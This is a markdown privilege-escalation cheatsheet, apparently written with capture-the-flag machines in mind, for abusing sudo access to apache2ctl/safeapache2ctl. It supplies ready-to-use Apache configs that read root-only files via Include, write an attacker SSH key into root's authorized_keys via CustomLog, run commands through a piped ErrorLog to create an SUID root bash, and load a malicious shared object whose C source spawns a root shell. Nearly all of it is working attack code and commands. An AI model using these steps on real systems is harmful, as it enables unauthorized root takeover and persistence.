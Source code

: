 
# 🔥 Apachectl / safeapache2ctl Privilege Escalation Cheatsheet

Misconfigured `apache2ctl` / `safeapache2ctl` in `sudo` can be abused to **read**, **write**, and **execute** as root by supplying your own Apache config.

---

## 🎯 1. Enumeration

### Check sudo rights

```bash
sudo -l
```

Look for:

```
(ALL) NOPASSWD: /usr/local/bin/apache2ctl
(ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

### Test a custom config

```bash
mkdir -p ~/confs
vi ~/confs/test.conf
sudo /usr/local/bin/safeapache2ctl -f ~/confs/test.conf start
```

### Always include minimal stubs

Apache refuses to start without these basics:

```apache
ServerRoot "/etc/apache2"
PidFile "/tmp/httpd.pid"
ErrorLog "/tmp/error.log"
Listen 8080
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
```

---

## 📖 2. Exploitation Techniques

### 📝 A. File Read — `Include`

Leak root flag or sensitive files:

```apache
ServerRoot "/etc/apache2"
PidFile "/tmp/httpd.pid"
ErrorLog "/tmp/error.log"
Listen 8080
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so

Include /root/root.txt
```

➡ Run:

```bash
sudo /usr/local/bin/safeapache2ctl -f ~/confs/readflag.conf configtest
```

Output shows file contents.

---

### ✍️ B. File Write — `CustomLog`

Drop your **SSH key** into root’s authorized\_keys:

```apache
ServerRoot "/etc/apache2"
PidFile "/tmp/httpd.pid"
ErrorLog "/tmp/error.log"
Listen 8080
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so

CustomLog "/root/.ssh/authorized_keys" "ssh-ed25519 AAAAC3Nz... attacker@kali"
```

➡ Run:

```bash
sudo /usr/local/bin/safeapache2ctl -f ~/confs/rootkey.conf start
```

Then connect:

```bash
ssh -i /tmp/root_ed root@target
```

Safer **append variant** (avoids overwrite):

```apache
CustomLog "|/bin/sh -c 'cat >> /root/.ssh/authorized_keys'" "ssh-ed25519 AAAAC3Nz..."
```

---

### 💥 C. Command Execution — `ErrorLog` Piped

Turn `ErrorLog` into a root command runner:

```apache
ServerRoot "/tmp"
ServerName localhost
Listen 8089
PidFile "/tmp/httpd.pid"
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so

ErrorLog "|/bin/sh -c 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'"
DocumentRoot "/tmp"
```

➡ Run and then:

```bash
/tmp/rootbash -p
```

Root shell with SUID bit set.

---

### 🧩 D. Shared Object Execution — `LoadFile`

Compile a malicious `.so` that spawns a root shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor))
void run() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
}
```

Build:

```bash
gcc -fPIC -shared -o ~/root.so root.c
```

Config:

```apache
ServerRoot "/etc/apache2"
PidFile "/tmp/httpd.pid"
ErrorLog "/tmp/error.log"
Listen 8080

LoadFile /home/mark/root.so
```

➡ Run → root shell.

---

## 🔍 3. Debugging & Tips

* Always override the `ErrorLog` path:

  ```apache
  ErrorLog "/tmp/apache_error.log"
  ```

  (Avoid `/etc/apache2/logs/` errors).

* Test writes safely first:

  ```apache
  CustomLog "/tmp/test.txt" "hello world"
  ```

  Then check:

  ```bash
  cat /tmp/test.txt
  ```

* Don’t worry if `safeapache2ctl` ends with **“Terminated”** — directives are parsed and executed *before* termination.

##
##


  
